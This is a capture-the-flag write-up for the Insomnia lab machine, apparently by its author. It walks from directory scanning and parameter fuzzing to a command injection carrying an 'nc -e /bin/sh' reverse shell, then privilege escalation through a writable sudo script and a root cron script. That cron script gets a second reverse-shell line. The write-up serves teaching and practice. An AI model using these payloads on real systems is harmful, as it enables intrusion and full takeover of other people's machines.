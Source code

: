 ```yaml
---
layout: post
title:  "Insomnia"
categories: [vulnhub,hackmyvm]
tags: [crontab,RCE]
---
```


You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/insomnia-1,644/`
Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Insomnia`

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/aSEaIK8kWD8" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  dirb http://10.0.2.114:8080/ -X .php,.txt

  + http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
  + http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
  + http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
  + http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
{% endhighlight %}

## Find GET parameter

```sh
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'

"logfile" 
```

## Reverse shell

```sh
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```

- My machine

{% highlight sh %}
  nc -lvp 4444
  www-data@insomnia:~$ cd /home/julia
  www-data@insomnia:~$ cat user.txt
{% endhighlight %}

## Priv Esc to Julia

{% highlight sh %}
  www-data@insomnia:~/julia$ sudo -l
  (julia) NOPASSWD: /bin/bash /var/www/html/start.sh

  www-data@insomnia:~$ cd /var/www/html

  www-data@insomnia:/var/www/html$ ls -la | grep start.sh
  -rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080
{% endhighlight %}

#### Edit start.sh

{% highlight sh %}
  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080

  www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

  www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

  julia@insomnia:/var/www/html$ id
  id
  uid=1000(julia) gid=1000(julia) groups=1000(julia)
{% endhighlight %}

## cat /etc/crontab

{% highlight sh %}
  julia@insomnia:~$ cat /etc/crontab
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  # |  |  |  |  |
  # *  *  *  *  * user-name command to be executed
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  *  *    * * *   root    /bin/bash /var/cron/check.sh

  julia@insomnia:~$ cd /var/cron
  cd /var/cron
  julia@insomnia:/var/cron$ ls -la | grep check.sh
  ls -la | grep check.sh
  -rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
{% endhighlight %}

## Target machine

- check.sh is writable, edit `check.sh`

{% highlight sh %}
  julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
{% endhighlight %}

## My machine, wait a little bit

{% highlight sh %}
nc -lvp 5555
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

- This vm created by me, i enjoyed the process
